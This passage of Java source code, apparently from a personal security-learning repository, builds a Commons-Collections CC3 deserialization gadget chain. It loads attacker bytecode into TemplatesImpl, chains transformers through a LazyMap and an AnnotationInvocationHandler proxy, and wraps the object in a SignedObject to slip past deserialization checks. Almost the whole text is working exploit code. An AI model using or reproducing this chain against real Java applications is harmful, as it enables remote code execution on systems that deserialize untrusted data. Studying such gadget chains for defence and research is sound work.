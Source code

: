 ```bash
        //CC3

        TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
        //E:\Java_project\Serialization_Learing\target\classes\Calc.class
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);
        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = cls.newInstance(Override.class,maproxy);


        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) o, kp.getPrivate(), Signature.getInstance("DSA"));
        signedObject.getObject();
    }
}
```
